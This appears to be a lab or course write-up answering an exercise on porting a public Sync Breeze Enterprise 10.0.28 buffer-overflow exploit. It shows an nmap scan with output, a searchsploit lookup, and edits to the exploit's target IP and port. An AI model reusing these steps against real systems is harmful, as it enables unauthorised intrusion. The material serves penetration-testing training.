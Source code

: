 
4. Recompile the exploit and use Wireshark to confirm that the code successfully initiates a socket connection to your dedicated Windows client. Run the exploit by issuing the _wine_ command before the file. Which C function in the code is used to convert the port number into network byte order?

```bash
# Enumerate
nmap -Pn -n -v -p- 192.168.246.10 --max-scan-delay=0
	PORT      STATE SERVICE
	135/tcp   open  msrpc
	445/tcp   open  microsoft-ds
	3389/tcp  open  ms-wbt-server
	8895/tcp  open  http     Serviio media server httpd 1.8 (UPnP/1.0 DLNADOC/1.50)
	23423/tcp open  http     Restlet Java web framework 2.2
	23424/tcp open  http     Restlet Java web framework 2.2
	23523/tcp open  ssl/http Restlet Java web framework 2.2
	23524/tcp open  ssl/http Restlet Java web framework 2.2
	Service Info: OS: Windows 10
	Service Info: Host: CLIENT251; OS: Windows; CPE: cpe:/o:microsoft:windows

# Get exploit
searchsploit "Sync Breeze Enterprise 10.0.28"
	--------------------------------------------------------------------------- ---------------------------------
	 Exploit Title                                                             |  Path
	--------------------------------------------------------------------------- ---------------------------------
	Sync Breeze Enterprise 10.0.28 - Denial of-Service (PoC)                   | windows/dos/43200.py
	Sync Breeze Enterprise 10.0.28 - Remote Buffer Overflow                    | windows/remote/42928.py
	Sync Breeze Enterprise 10.0.28 - Remote Buffer Overflow (PoC)              | windows/dos/42341.c
	--------------------------------------------------------------------------- ---------------------------------

searchsploit -m 42341

vim 42341.c
	# Edit
    server.sin_addr.s_addr = inet_addr("192.168.246.10");
    server.sin_family = AF_INET;
    server.sin_port = htons(8895);	

```

> Answer:  htons

